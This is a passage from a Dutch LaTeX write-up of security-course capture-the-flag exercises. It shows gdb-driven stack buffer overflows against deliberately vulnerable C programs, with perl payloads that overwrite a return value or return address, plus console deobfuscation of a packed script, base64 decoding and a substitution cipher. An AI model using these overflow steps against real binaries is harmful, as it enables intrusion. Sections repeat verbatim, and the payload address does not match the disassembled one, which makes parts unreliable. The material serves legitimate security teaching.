  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x3')''
  		\begin{enumerate}
  		\item Segmentation fault
  		\end{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x4')''
  		\begin{enumerate}
  		\item Succes!
  		\end{enumerate}
  	\end{enumerate}
  \item ./prism ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x4')''
\end{enumerate}

\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char *argv[]){
	if(argc != 3){
		printf("Error: %s <IP-address> <password> required\n", argv[0]);
		exit(0);
	}

	if(make_connection(argv[1], argv[2]) == 0){
		printf("\nMaking connection...\n");
		printf("====================\n");
		printf("\nConnection failed!\n");
		exit(0);
	}
}

int make_connection(char *ip, char *pass){
	char pw[8];
	int return_val = 0;

	strcpy(pw, pass);

	return return_val;
}

int gegevens(){
	printf("\nNSA\n");
	printf("*********\n");
	printf("Name Password\n");
	printf("------- -----------\n");
	printf("Frans Bauer fRanske123\n");
	printf("Lorrie Popovich loPo007\n");
	printf("Hello Kitty yttikolleh\n");
	printf("Klok Kenluider ringring00\n");

	return(0);
}
\end{lstlisting}
\section{Oefening 4}
\begin{enumerate}
  \item View Page Source
  \item Scroll naar beneden
  \item Plak alles \textless script\textgreater eval(function(p,a,c,k,e,d) ... in http://jsbeautifier.org
  \item Copy alles van "var tse = ..." tot en met "var wachtwoord = ..."
  \item Open Console (CTRL + SHIFT + j)
  \item Plak in Console tab en typ: console.log(yBV + 'gGZ' + Pf3 + z52 + fC7);
  \item DXbgGZWdUFyUgaH verschijnt
\end{enumerate}
\section{Oefening 5}
\begin{enumerate}
  \item In de link zien wij: xblezwjdmfpoaqvuykinsctrgh
  \item We gebruiken deze link als substitutie-regel:
  \begin{enumerate}
  \item x = a
  \item b = b
  \item l = c
  \item ...
  \item g = y
  \item h = z
  \end{enumerate}
  \item txn
  \begin{enumerate}
  \item t = w
  \item x = a
  \item n = t
  \end{enumerate}
  \item zzq
  \begin{enumerate}
  \item z = e
  \item z = e
  \item q = n
  \end{enumerate}
  \item jvzez
  \begin{enumerate}
  \item j = g 
  \item v = o
  \item z = e
  \item e = d
  \item z = e
  \end{enumerate}
  \item dmqn
  \begin{enumerate}
  \item d = h
  \item m = i
  \item q = n
  \item n = t
  \end{enumerate}
  \item tzke
  \begin{enumerate}
  \item t = w
  \item z = e
  \item k = r
  \item e = d
  \end{enumerate}
  \item dmzk
  \begin{enumerate}
  \item d = h
  \item m = i
  \item z = e
  \item k = r
  \end{enumerate}
  \item jzjzczq
  \begin{enumerate}
  \item j = g
  \item z = e
  \item j = g
  \item z = e
  \item c = v
  \item z = e
  \item q = n
  \end{enumerate}
  \item wat een goede hint werd hier gegeven
\end{enumerate}
\newpage

\chapter{Capture the Flag}
\section{Oefening 1}
\begin{enumerate}
  \item Kopi"eer de opgave
  \item Base64 decoder geeft ons het antwoord
  \item Eerste oefening! base64 FTW!
\end{enumerate}
\section{Oefening 2}
\begin{enumerate}
  \item gcc -g -fno-stack-protector -z execstack -o cracking-safe cracking-safe.c
  \item gdb -q cracking-safe
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 1 argument: \textless paswoord\textgreater
  		\item return\_value == 0
  		\item password == argv[1]
  		\item strcmp(password, "") == 0 --\textgreater succes
  			\begin{enumerate}
  			\item Lege String als argument meegeven gaat niet
  			\end{enumerate}
  		\end{enumerate}
  	\end{enumerate}
  \item (gdb) break 8
  		\begin{enumerate}
  		\item Adressen van password en return\_value  			
  		\end{enumerate}
  \item (gdb) break 10
  		\begin{enumerate}
  		\item Controleren of overflow gelukt is  			
  		\end{enumerate}
  \item (gdb) run azer
  		\item (gdb) x/x \&return\_value
  			\begin{enumerate}
  			\item 0xbffff65c
  			\end{enumerate}
  		\item (gdb) x/x password
  			\begin{enumerate}
  			\item 0xbffff654
  			\end{enumerate}
  	\item (gdb) print 0xbffff65c - 0xbffff654
  		\begin{enumerate}
  		\item \$1 = 8
  		\end{enumerate}
  	\item (gdb) run ``azertyuip''
  	\item (gdb) cont
  	\item (gdb) x/x \&return\_value
  		\begin{enumerate}
  		\item 0xbffff64c: 0x00000070
  		\item return\_value is overschreven en zal geen 0 meer teruggeven.
  		\end{enumerate}
  	\item (gdb) quit
  	\item ./cracking-safe ``\$(perl -e `print ``A''x8 . ``B'' ')''
\end{enumerate}

\begin{lstlisting}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_safe(char *pass){
	int return_value = 0;
	char password[8];

	strcpy(password, pass);

	if(strcmp(password, "") == 0)
		return_value = 1;

	return return_value;
}

int main(int argc, char *argv[]) {
	if(argc < 2){
		printf("Fout!\nGebruik: %s <password>\n", argv[0]);
		exit(0);
	}

	if(strlen(argv[1]) == 0){
		printf("Fout!\nHet passwoord mag niet leeg zijn.\n");
		exit(0);
	}

	if(check_safe(argv[1])){
		printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf(" Successfully cracked the safe.\n");
		printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf("Er staan momenteel 4 examens in de kluis:\n\n");
		printf("1) Besturingssystemen 1     P. Geens          [Open]\n");
		printf("2) Besturingssystemen 2     P. Geens          [Open]\n");
		printf("3) Databanken 2             W. Bertels        [Open]\n");
		printf("4) Beveiliging              P. Philippaerts   [Open]\n");

	}else{
		printf("\nSafe still closed.\n");
	}
}
\end{lstlisting}
\section{Oefening 3}
\begin{enumerate}
  \item gcc-3.3 -o prism prism.c
  \item gdb -q prism 
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 2 argumenten: \textless IP-address\textgreater \textless password\textgreater
  		\item pw
  		\item return\_val == 0
 		\item Het return adres moet overschreven worden met het adres van de gegevens functie
  		\end{enumerate}
  	\end{enumerate}
  \item set disassembly-flavor intel
  	\begin{enumerate}
  	\item Disassembly taal naar intel zetten
  	\end{enumerate}
  \item disass gegevens
  	\begin{enumerate}
  	\item 0x08048481
  	\item Dit adres moet het return-adres van de main functie overschrijven
  		\begin{enumerate}
  		\item Let op: Little Endian
  		\end{enumerate}
  	\end{enumerate}
  \item Trial and error
  	\begin{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x2')''
  		\begin{enumerate}
  		\item Program exited normally
  		\end{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x3')''
  		\begin{enumerate}
  		\item Segmentation fault
  		\end{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x4')''
  		\begin{enumerate}
  		\item Succes!
  		\end{enumerate}
  	\end{enumerate}
  \item ./prism ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x4')''
\end{enumerate}

\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char *argv[]){
	if(argc != 3){
		printf("Error: %s <IP-address> <password> required\n", argv[0]);
		exit(0);
	}

	if(make_connection(argv[1], argv[2]) == 0){
		printf("\nMaking connection...\n");
		printf("====================\n");
		printf("\nConnection failed!\n");
		exit(0);
	}
}

int make_connection(char *ip, char *pass){
	char pw[8];
	int return_val = 0;

	strcpy(pw, pass);

	return return_val;
}

int gegevens(){
	printf("\nNSA\n");
	printf("*********\n");
	printf("Name Password\n");
	printf("------- -----------\n");
	printf("Frans Bauer fRanske123\n");
	printf("Lorrie Popovich loPo007\n");
	printf("Hello Kitty yttikolleh\n");
	printf("Klok Kenluider ringring00\n");

	return(0);
}
\end{lstlisting}
\section{Oefening 4}
\begin{enumerate}
  \item View Page Source
  \item Scroll naar beneden
  \item Plak alles \textless script\textgreater eval(function(p,a,c,k,e,d) ... in http://jsbeautifier.org
  \item Copy alles van "var tse = ..." tot en met "var wachtwoord = ..."
  \item Open Console (CTRL + SHIFT + j)
  \item Plak in Console tab en typ: console.log(yBV + 'gGZ' + Pf3 + z52 + fC7);
  \item DXbgGZWdUFyUgaH verschijnt
\end{enumerate}
\newpage

\chapter{Complex}
\section{Oefening 1}
\begin{enumerate}
  \item Kopi"eer de opgave
  \item Base64 decoder geeft ons het antwoord
  \item Eerste oefening! base64 FTW!
\end{enumerate}
\section{Oefening 2}
\begin{enumerate}
  \item gcc -g -fno-stack-protector -z execstack -o cracking-safe cracking-safe.c
  \item gdb -q cracking-safe
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 1 argument: \textless paswoord\textgreater
  		\item return\_value == 0
  		\item password == argv[1]
  		\item strcmp(password, "") == 0 --\textgreater succes
  			\begin{enumerate}
  			\item Lege String als argument meegeven gaat niet
  			\end{enumerate}
  		\end{enumerate}
  	\end{enumerate}
  \item (gdb) break 8
  		\begin{enumerate}
  		\item Adressen van password en return\_value  			
  		\end{enumerate}
  \item (gdb) break 10
  		\begin{enumerate}
  		\item Controleren of overflow gelukt is  			
  		\end{enumerate}
  \item (gdb) run azer
  		\item (gdb) x/x \&return\_value
  			\begin{enumerate}
  			\item 0xbffff65c
  			\end{enumerate}
  		\item (gdb) x/x password
  			\begin{enumerate}
  			\item 0xbffff654
  			\end{enumerate}
  	\item (gdb) print 0xbffff65c - 0xbffff654
  		\begin{enumerate}
  		\item \$1 = 8
  		\end{enumerate}
  	\item (gdb) run ``azertyuip''
  	\item (gdb) cont
  	\item (gdb) x/x \&return\_value
  		\begin{enumerate}
  		\item 0xbffff64c: 0x00000070
  		\item return\_value is overschreven en zal geen 0 meer teruggeven.
  		\end{enumerate}
  	\item (gdb) quit
  	\item ./cracking-safe ``\$(perl -e `print ``A''x8 . ``B'' ')''
\end{enumerate}

\begin{lstlisting}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_safe(char *pass){
	int return_value = 0;
	char password[8];

	strcpy(password, pass);

	if(strcmp(password, "") == 0)
		return_value = 1;

	return return_value;
}

int main(int argc, char *argv[]) {
	if(argc < 2){
		printf("Fout!\nGebruik: %s <password>\n", argv[0]);
		exit(0);
	}

	if(strlen(argv[1]) == 0){
		printf("Fout!\nHet passwoord mag niet leeg zijn.\n");
		exit(0);
	}

	if(check_safe(argv[1])){
		printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf(" Successfully cracked the safe.\n");
		printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf("Er staan momenteel 4 examens in de kluis:\n\n");
		printf("1) Besturingssystemen 1     P. Geens          [Open]\n");
		printf("2) Besturingssystemen 2     P. Geens          [Open]\n");
		printf("3) Databanken 2             W. Bertels        [Open]\n");
		printf("4) Beveiliging              P. Philippaerts   [Open]\n");

	}else{
		printf("\nSafe still closed.\n");
	}
}
\end{lstlisting}
\section{Oefening 3}
\begin{enumerate}
  \item gcc-3.3 -o prism prism.c
  \item gdb -q prism 
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 2 argumenten: \textless IP-address\textgreater \textless password\textgreater
  		\item pw
  		\item return\_val == 0
 		\item Het return adres moet overschreven worden met het adres van de gegevens functie
  		\end{enumerate}
  	\end{enumerate}
  \item set disassembly-flavor intel
  	\begin{enumerate}
  	\item Disassembly taal naar intel zetten
  	\end{enumerate}
  \item disass gegevens
  	\begin{enumerate}
  	\item 0x08048481
  	\item Dit adres moet het return-adres van de main functie overschrijven
  		\begin{enumerate}
  		\item Let op: Little Endian
  		\end{enumerate}
  	\end{enumerate}
  \item Trial and error
  	\begin{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x2')''
  		\begin{enumerate}
  		\item Program exited normally
  		\end{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x3')''
  		\begin{enumerate}
  		\item Segmentation fault
  		\end{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x4')''
  		\begin{enumerate}
  		\item Succes!
  		\end{enumerate}
  	\end{enumerate}
  \item ./prism ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x4')''
\end{enumerate}

\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char *argv[]){
	if(argc != 3){
		printf("Error: %s <IP-address> <password> required\n", argv[0]);
		exit(0);
	}

	if(make_connection(argv[1], argv[2]) == 0){
		printf("\nMaking connection...\n");
		printf("====================\n");
		printf("\nConnection failed!\n");
		exit(0);
	}
}

int make_connection(char *ip, char *pass){
	char pw[8];
	int return_val = 0;

	strcpy(pw, pass);

	return return_val;
}

int gegevens(){
	printf("\nNSA\n");
	printf("*********\n");
	printf("Name Password\n");
	printf("------- -----------\n");
	printf("Frans Bauer fRanske123\n");
	printf("Lorrie Popovich loPo007\n");
	printf("Hello Kitty yttikolleh\n");
	printf("Klok Kenluider ringring00\n");

	return(0);
}
\end{lstlisting}
\section{Oefening 4}
\begin{enumerate}
  \item View Page Source
  \item Scroll naar beneden
  \item Plak alles \textless script\textgreater eval(function(p,a,c,k,e,d) ... in http://jsbeautifier.org
  \item Copy alles van "var tse = ..." tot en met "var wachtwoord = ..."
  \item Open Console (CTRL + SHIFT + j)
  \item Plak in Console tab en typ: console.log(yBV + 'gGZ' + Pf3 + z52 + fC7);
  \item DXbgGZWdUFyUgaH verschijnt
\end{enumerate}
\newpage
\end{document}
